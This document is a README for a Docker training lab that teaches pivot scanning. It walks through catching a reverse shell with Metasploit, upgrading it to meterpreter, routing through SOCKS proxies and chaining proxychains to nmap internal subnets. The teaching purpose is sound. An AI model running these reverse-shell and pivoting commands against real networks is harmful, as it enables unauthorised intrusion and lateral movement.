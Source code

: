 # Pivot Scanning Exercise

This is an exercise to teach attackers the art of pivot scanning.
It starts with a simple revershell into meterpreter into nmap into SOCKS proxy.

## Setup

1. Run `docker compose up --build` to start the exercise.

## Walkthrough

1. Scan the host that runs the exercise, discover port 80.
1. Checkout port 80 and find Python As A Service. If the students were defenders before, they should know this service from the monitoring exercise.
1. Exploit service to get reverse shell. Ideally, they'll catch the reverse shell with netcat first, we'll show them metasploit.
    
    ```msfconsole
    use exploit/multi/handler
    set lhost IP_ADDRESS
    run
    # start rev shell
    ```

1. Upgrade shell to meterpreter:

    ```msfconsole
    # CTRL+Z to for background
    use post/multi/manage/shell_to_meterpreter
    set session 1
    run
    ```

1. How to continue? -> We want to enumerate. But we also want to enumerate network services. But we don't have `nmap` :( Wouldn't it be great, if we could route our traffic through our existing connection?
1. SOCKS Proxy allows us to proxy Transport Layer traffic.
1. Start SOCKS Proxy in Metasploit:

    ```msfconsole
    use auxiliary/server/socks_proxy
    run
    ```

1. Let msfconsole route traffic

    ```msfconsole
    use post/multi/manage/autoroute
    set session 2
    run
    ```

1. Configure Proxychains

    ```conf
    # proxychains.conf  VER 4.x

    strict_chain
    proxy_dns
    remote_dns_subnet 224

    # Some timeouts in milliseconds
    tcp_read_time_out 15000
    tcp_connect_time_out 8000

    [ProxyList]
    socks5 127.0.0.1 1080
    ```

1. You can now start programs with proxychains like `proxychains curl 172.20.0.2`. You can also configure FoxyProxy in Firefox to connect to the local proxy.
1. Start a scan with `proxychains nmap -T4 -Pn -sT -p22,80,443 172.20.0.0/24`.
1. Find `172.20.0.5` and `172.20.0.44`. Open `172.20.0.5` in the browser and find the greeters page.
1. Find `172.20.0.44` with open SOCKS port by scanning for `1080`.
1. Add `socks5 172.20.0.44 1080` to the `proxychains.conf` file. At `172.20.1.5` the greeter should be visible again.
1. Then, you can start scanning the next network and find the final page at `172.20.1.200`.
1. In case you want to use FoxyProxy with these two proxies, run `proxychains msfconsole` and `use auxiliary/server/socks_proxy`, configure a port other than `1080` and execute `run`.
1. Then you can connect with FoxyProxy to the new SOCKS proxy (that is present in `msconsole`, which runs in the `proxychains` with two proxies).
